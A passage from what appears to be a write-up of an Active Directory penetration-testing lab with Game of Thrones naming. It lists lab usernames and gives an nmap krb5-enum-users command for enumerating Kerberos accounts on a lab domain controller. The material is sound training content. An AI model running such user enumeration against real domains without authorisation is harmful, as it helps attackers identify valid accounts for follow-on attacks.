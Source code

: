 ```
gilly
podrick.payne
melisandre
yara.greyjoy
jaqen.h’ghar
grey.worm
beric.dondarrion
missandei
mance.rayder
tormund
ramsay.snow
olenna.tyrell
thoros.of
orell
qyburn
brynden.tully
tommen.baratheon
daario.naharis
oberyn.martell
myrcella.baratheon
obara.sand
nym.sand
tyene.sand
high.sparrow
trystane.martell
doran.martell
euron.greyjoy
lady.crane
high.priestess
randyll.tarly
izembaro
brother.ray
archmaester.ebrose
```
    
- Let’s try this list on meereen.essos.local domain controller and kingslanding.sevenkingdoms.local

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='sevenkingdoms.local',userdb=got_users.txt" 192.168.56.10
```

![screenshot](pics/nmap_krb5_enum.png)
